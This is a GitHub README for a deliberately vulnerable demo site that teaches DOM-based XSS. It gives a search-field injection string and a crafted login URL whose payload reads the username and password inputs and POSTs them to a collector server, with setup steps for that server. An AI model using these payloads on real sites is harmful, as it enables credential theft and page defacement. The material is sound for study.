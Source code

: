 # No Man's Land Revenue Agency 

This is a demo of two DOM-based XSS vulnerabilities in a specifically crafted for this purpose website.
Imagine you're in No Man's Land and you need to access their revenue agency in order to fill in some tax statements...

## Instructions

To get started, navigate to No Man's Land Revenue Agency home page: https://mtsanovv.github.io/nomanslandra/frontend/index.html

- To inject malicious code via html element, open the search page and put the following string in the query input field and then press 'Search':
```article');$("#search").append("<img src=\"https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif\"/><iframe width=\"1\" height=\"1\" src=\"https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1&loop=1\"><\/iframe>");console.log('```

- To inject malicius code via url:
    1. Create a MySQL database using the ```storeCredentials.sql``` file from the ```backend``` directory and grant ```SELECT/INSERT/UPDATE/DELETE``` privileges for it to some user
    2. Navigate to the ```backend``` directory and configure the MySQL properties in ```server.js``` (make sure to use the user from step 1)
    3. Run ```node server.js``` (you may need to run first ```npm install express mysql cors``` in the ```backend``` directory)
    4. Navigate to the following URL: ```https://mtsanovv.github.io/nomanslandra/frontend/login.html?continue=$.ajax({contentType:%27application/json%27,type:%27POST%27,url:%27http://localhost:3000/storeCredentials%27,data:JSON.stringify({username:$(%27input:eq(0)%27).val(),password:$(%22input:eq(1)%22).val()})});$(%22article%22).first().append(%27%3Cimg%20src=%22https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif%22/%3E%3Ciframe%20width=%221%22%20height=%221%22%20src=%22https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1%22%3E%3C/iframe%3E%27);console.log```

# Notes
- Created for educational purposes only and to demonstrate how bad XSS can be
- This is the unencoded JavaScript code for the 'continue' parameter in the malicious URL:
```$.ajax({contentType:'application/json',type:'POST',url:'http://localhost:3000/storeCredentials',data:JSON.stringify({username:$('input:eq(0)').val(),password:$("input:eq(1)").val()})});$("article").first().append('<img src="https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif"/><iframe width="1" height="1" src="https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1"></iframe>');console.log```
- The website is based on Telephasic by HTML5UP!
- Malicious code nspired by: https://btvnovinite.bg/bulgaria/shegadzhii-udariha-sajta-na-nap.html

# License
Creative Commons Attribution 3.0 Unported
http://creativecommons.org/licenses/by/3.0/

*M.Tsanov, 2023*
